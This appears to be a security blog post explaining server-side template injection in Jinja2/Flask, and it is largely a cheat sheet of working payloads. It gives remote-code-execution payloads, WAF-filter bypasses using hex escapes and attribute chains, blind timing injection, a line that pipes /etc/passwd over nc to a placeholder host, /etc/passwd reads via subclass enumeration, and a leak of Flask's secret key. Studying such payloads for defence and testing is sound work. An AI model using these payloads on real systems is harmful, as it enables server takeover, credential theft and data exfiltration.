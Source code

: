 ```yaml
---
title: SSTI-with Jinja2
published: 2025-09-10
description: 'Explain this Vulnerability'
image: ''
tags: ['SSTI','Payload','Py']
category: 'VULNERABILITY'
draft: false 
lang: ''
---
```


# Understanding Server-Side Template Injection (SSTI)

## What is SSTI?

A **Server-Side Template Injection (SSTI)** occurs when user input is directly embedded and rendered within a template on the server. Templates are often used to make small changes to web pages without regenerating the entire HTML file for every request.

For example:

```html
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Here, the `{{ip}}` placeholder is dynamically replaced by the server with the visitor’s IP address.

If developers do not properly sanitize user input, an attacker may inject malicious template code. Many template engines (like **Jinja2**) support advanced logic, which attackers can abuse to execute arbitrary commands on the underlying server.

This can escalate to **Remote Code Execution (RCE)**.

---

## RCE Payloads in Jinja2

### Basic Payload
```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

### Bypassing WAF Filters

- **If “.” is blocked:**
```jinja2
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
```

- **If “.” and “_” are blocked:**
```jinja2
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
```

- **Full bypass (no `.`, `_`, `[]`, `|join`):**
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## RCE Without `{{ }}`

Jinja2 allows multiple template delimiters beyond `{{}}`.

- **Using `{% %}` conditionals:**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() == 'chiv\n' %} a {% endif %}
```

- **Blind Command Injection (via timing):**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' %} a {% endif %}
```

- **Exfiltrating data via HTTP:**
```jinja2
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
```

---

## Extracting Sensitive Data

- **Leak the secret key:**
```jinja2
{{config["SECRET_KEY"]}}
```

- **If `config` is blocked:**
```jinja2
{{self.__dict__}}
```

---

## Filter Bypasses

- **Format string trick:**
```jinja2
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

This reconstructs `__class__` dynamically, bypassing filters.

---

## Listing Classes & Subclasses

```jinja2
{{OBJECT.__class__.mro().__subclasses__()}}
{{OBJECT.__class__.__mro__[1].__subclasses__()}}
```

Where `OBJECT` could be `g`, `request`, `config`, `application`, etc.

---

## Step-by-Step Payload Development

Example with `get_flashed_messages`:

```jinja2
{{get_flashed_messages}}
{{get_flashed_messages.__class__}}
{{get_flashed_messages.__class__.__mro__}}
{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
```

---

## Encoding Tricks

- **Hex encoding filenames:**
```jinja2
{{''.__class__.__mro__[2].__subclasses__()[40]('\x2F\x65\x74\x63\x2F\x70\x61\x73\x73\x77\x64').read()}}
```

---

## Dot (`.`) WAF Bypass

- **Normal:**
```jinja2
{{ foo.bar }}
```

- **Bypass with brackets:**
```jinja2
{{ foo['bar'] }}
```

- **Bypass with `|attr`:**
```jinja2
{{ foo|attr('bar') }}
```

---

## Useful Flask Filters

- `join` → Joins a list into a string
- `safe` → Disables HTML escaping
- `attr` → Access attributes dynamically

Example:
```jinja2
{{['Thi','s wi','ll b','e appended']|join}}
```

Output:
```
This will be appended
```

---

## Inspecting Objects with `__dict__`

```jinja2
{{g.__class__.__mro__[1].__subclasses__()[289].__dict__}}
```

View only keys:
```jinja2
{{...__dict__.keys()}}
```

---

## Key Notes on Attribute Access in Jinja2

- `foo.bar`
  1. Check attribute `bar`
  2. Else, check `foo['bar']`

- `foo['bar']`
  1. Check item `'bar'`
  2. Else, check attribute

- `attr()` → Only checks attributes.

---

## Conclusion

SSTI vulnerabilities in frameworks like Flask (Jinja2) can easily escalate to **Remote Code Execution**, allowing attackers to steal sensitive information, exfiltrate files, and take full control of servers.

Understanding payload construction, filter bypasses, and encoding tricks is crucial for both attackers and defenders.

---

## References

- [Jinja2 Templates](https://jinja.palletsprojects.com/en/2.11.x/templates/)
- [PortSwigger: SSTI Research](https://portswigger.net/research/server-side-template-injection)
- [PayloadAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Flask Template Filters](https://jinja.palletsprojects.com/en/2.11.x/templates/#builtin-filters)
- [SecGus on Twitter](https://twitter.com/SecGus)
